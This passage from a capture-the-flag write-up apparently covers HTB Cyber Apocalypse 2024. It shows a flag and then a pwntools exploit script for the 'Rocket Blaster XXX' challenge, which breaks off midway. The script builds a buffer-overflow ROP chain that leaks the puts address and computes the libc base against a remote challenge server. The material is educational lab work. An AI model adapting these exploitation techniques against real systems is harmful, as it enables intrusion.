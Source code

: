 ```bash
HTB{c0nf1gur3_w3r_d0g}
```

### Flag

`HTB{c0nf1gur3_w3r_d0g}`

---

## pwn/Rocket Blaster XXX

> Prepare for the ultimate showdown! Load your weapons, gear up for battle, and dive into the epic fray—let the fight commence!<br>
> Attachment: [pwn_rocket_blaster_xxx.zip](https://github.com/ResetSec/HTB-Cyber-Apocalypse-2024/blob/main/pwn/Rocket_Blaster_XXX/pwn_rocket_blaster_xxx.zip)

Literally same as `Pet Companion`. Absolutely no change required in solve technique.

### Exploit

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./rocket_blaster_xxx")
libc = exe.libc

context.binary = exe
context.terminal = ['tmux', 'splitw', '-h']

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("83.136.250.140", 58876)

    return r


def main():
    r = conn()

    # good luck pwning :)
    offset = 40
    pop_rdi = 0x000000000040159f
    pop_rsi = 0x000000000040159d
    pop_rdx = 0x000000000040159b
    payload = flat({
        offset       : p64(pop_rdi),
        offset + 8   : p64(exe.got.puts),
        offset + 16  : p64(exe.plt.puts),
        offset + 24  : p64(exe.sym.main)
        })

    r.clean(timeout=2)
    r.sendline(payload)
    r.recvuntil(b'testing..\n')
    leak = u64(r.recvline().strip().ljust(8, b'\x00'))
    print(f'{hex(leak)=}')
    libc.address = leak - libc.sym.puts
    print(f'{hex(libc.address)=}')
```